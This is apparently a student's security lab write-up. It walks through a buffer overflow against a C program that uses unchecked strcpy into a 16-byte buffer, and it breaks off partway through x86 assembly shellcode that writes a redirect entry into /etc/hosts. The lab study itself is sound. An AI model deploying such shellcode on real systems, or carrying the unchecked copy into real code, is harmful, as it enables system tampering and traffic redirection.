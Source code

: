 # Lab #1,21110799, Le Quoc Thang, INSE331280E_02FIE
# Task 1: 
### Ansour 1:

#### Description:

In this task, we are going to perform a buffer overflow attack on a vulnerable C program that uses the `strcpy` function without bounds checking. We will exploit this vulnerability by injecting shellcode that will add a new entry to the `/etc/hosts` file when the program runs. The shellcode is written in assembly and uses system calls to open, write to, and close the `/etc/hosts` file.

We'll be using the code injection method, where the buffer in the C program will be overwritten with the shellcode. 

#### Step-by-step Instructions:

1. **Writing the C Program:**
   - The C program provided is vulnerable because it uses `strcpy` without checking the length of the input, allowing a buffer overflow to occur. The buffer is only 16 bytes long, but we can inject more data (including the shellcode) into it.
   
   ```c
   #include <stdio.h>
   #include <string.h>

   int main(int argc, char* argv[])
   {
       char buffer[16];
       strcpy(buffer,argv[1]);  // Vulnerable function
       return 0;
   }
   ```

2. **Writing the Shellcode in Assembly:**
   - The assembly shellcode is responsible for adding the entry "127.1.1.1 google.com" to the `/etc/hosts` file.
   - We will compile the shellcode and inject it into the buffer overflow.

   ```asm
   global _start

   section .text

   _start:
       xor ecx, ecx
       mul ecx
       mov al, 0x5     
       push ecx
       push 0x7374736f     ;/etc///hosts
       push 0x682f2f2f
       push 0x6374652f
       mov ebx, esp
       mov cx, 0x401       ;permissions
       int 0x80            ;syscall to open file

       xchg eax, ebx
       push 0x4
       pop eax
       jmp short _load_data    ;jmp-call-pop technique to load the map

   _write:
       pop ecx
       push 20             ;length of the string, adjust if changes the map
   ```